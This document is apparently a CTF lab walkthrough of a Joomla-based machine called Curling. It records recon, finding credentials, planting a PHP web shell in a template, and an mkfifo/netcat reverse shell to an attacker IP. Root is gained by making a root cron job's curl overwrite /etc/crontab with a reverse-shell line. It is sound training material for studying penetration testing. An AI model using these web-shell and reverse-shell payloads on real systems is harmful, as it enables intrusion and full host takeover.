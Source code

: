 1, Recon
port scan 
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

page check
![](images/Pasted%20image%2020241127221709.png)
By check `whatweb`, we found the version of `CMS` is `Joomla!`
```
whatweb http://10.10.10.150  

http://10.10.10.150 [200 OK] Apache[2.4.29], Bootstrap, Cookies[c0548020854924e0aecd05ed9f5b672b], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], HttpOnly[c0548020854924e0aecd05ed9f5b672b], IP[10.10.10.150], JQuery, MetaGenerator[Joomla! - Open Source Content Management], PasswordField[password], Script[application/json], Title[Home]

```

And enumerating the web-content, we found 
```
ffuf -u http://10.10.10.150/FUZZ -w /usr/share/wordlists/dirb/common.txt

administrator
bin
cache
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
```

When we direct to `/administrator`, we would be redirect to the dashboard of `joomla`
![](images/Pasted%20image%2020241127222658.png)

But we still don't have valid credentials, I have tried default credentials `admin:admin`, but it didn't work.

When I check the title of index page of `http://10.10.10.150/`, I found some hints
`[Cewl Curling site!](http://10.10.10.150/)`
So let's `cewl` it and try to get the valid credentials.

All right, very sad, Still not work.

We have to continue enumerate all the existed web-contents, such as the source code of pages.
From the source code of index page, i found that in the end of the code.
```
</body>
      <!-- secret.txt -->
</html>
```

So just check it `http://10.10.10.150/secret.txt`
we get `Q3VybGluZzIwMTgh`, seems like a encoded password.
Just try to use decode of base64, we get `Curling2018!`
But we do not get the username, so let's find that by using this key words
we find that from the source code
```
<p>Hey this is the first post on this amazing website! Stay tuned for more amazing content! curling2018 for the win!</p>
<p>- Floris</p>
```

So, the credential would be `Floris:Curling2018!`
Then we finally get into the dashboard of `Joomla`
![](images/Pasted%20image%2020241127225414.png)

Of course, we get the version `Joomla! 3.8.8` and the system information
![](images/Pasted%20image%2020241127225652.png)

And also we want to check the configuration file, but very sadly, the password and username has been hidden because of safe settings.

But we can edit the `index.php` from `Templates/Protostar`
![](images/Pasted%20image%2020241127231212.png)
Then choose `Templates/protostar`, and add the web shell into the index page
`system($_REQUEST['pwn']);` and save it.

Then we can try it `http://10.10.10.150/index.php?pwn=id`
![](images/Pasted%20image%2020241127231343.png)

Then we can run a reverse shell command to get shell.
```
curl http://10.10.10.150/index.php -G --data-urlencode 'pwn=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f'
```
Then we can get the credential 
```
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'floris';
public $password = 'mYsQ!P4ssw0rd$yea!';
```
Then we can login into mysql and get the password hash
`floris   | webmaster@localhost | $2y$10$4t3DQSg0DSlKcDEkf1qEcu6nUFEr/gytHfVENwSmZN1MXxE1Ssx.e`

But very sad, I could not crack it by using rockyou.txt.

So let's continue to enumerate deeper, I found a file `password_backup` in the directory `/home/floris`
```
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H

```
It seems like a  hex dump. We can use `xxd` which can be reversed.
```
xxd -r password_backup password

Then check the file:
file password
password: bzip2 compressed data, block size = 900k
```
It seems like a Repeated compression process
```
bzip2 -d password
file password.out
password.out: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix

mv password.out password.gz
gzip -d password.gz
file password
password: bzip2 compressed data, block size = 900k

bzip2 -d password
file password.out
password.out: POSIX tar archive (GNU)

tar xf password.out
Fianlly we get the password.txt
5d<wdCbdZu)|hChXll
```

Then we can use that to login the ssh of user `floris`

3, shell as root
Firstly, I would like check `sudo -l`
```
sudo -l
[sudo] password for floris: 
Sorry, user floris may not run sudo on curling.
```
Then continue check `net state`
```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      - 
```
Nothing interesting, so continue to check the home directory.
There is a `admin-area` directory here but seems nothing useful.
```
drwxr-xr-x 6 floris floris 4096 Aug  2  2022 .
drwxr-xr-x 3 root   root   4096 Aug  2  2022 ..
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2  2022 .cache
drwx------ 3 floris floris 4096 Aug  2  2022 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2  2022 .local
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
-rw-r----- 1 floris floris   33 Nov 28 03:15 user.txt
```

By using `pspy64` we find something worked in the background by root
```
2024/11/28 04:53:01 CMD: UID=0    PID=27058  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2024/11/28 04:53:01 CMD: UID=0    PID=27057  | sleep 1 
2024/11/28 04:53:01 CMD: UID=0    PID=27056  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2024/11/28 04:53:02 CMD: UID=???  PID=27059  | ???
```
In this place, we can exploit it by changing the `crontab` by write into `/etc/crontab`
```
curl: A command-line tool used to transfer data from or to a server using supported protocols (HTTP, FTP, etc.).

-K /home/floris/admin-area/input:

-K tells curl to read its configuration options from the file specified (/home/floris/admin-area/input).
The file should contain valid curl options in a format like:
makefile
复制代码
url = "http://example.com"
user = "username:password"
This allows you to specify multiple options in a cleaner way than writing them all on the command line.
-o /home/floris/admin-area/report:

-o specifies the output file where the content fetched by curl will be saved.
In this case, the fetched data will be written to /home/floris/admin-area/report.
```

In this place, we need to put the malicious script into the target crontab
```
cp /etc/crontab .
echo '* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i
2>&1|nc 10.10.16.4 443 >/tmp/f ' >> crontab
python3 -m http.server 80
```

Then change the `input` file
```
url = "http://10.10.16.14/crontab"
output = "/etc/crontab"
```

Remember to open the netcat and listening the port 443, and wait a minute to get the shell back.



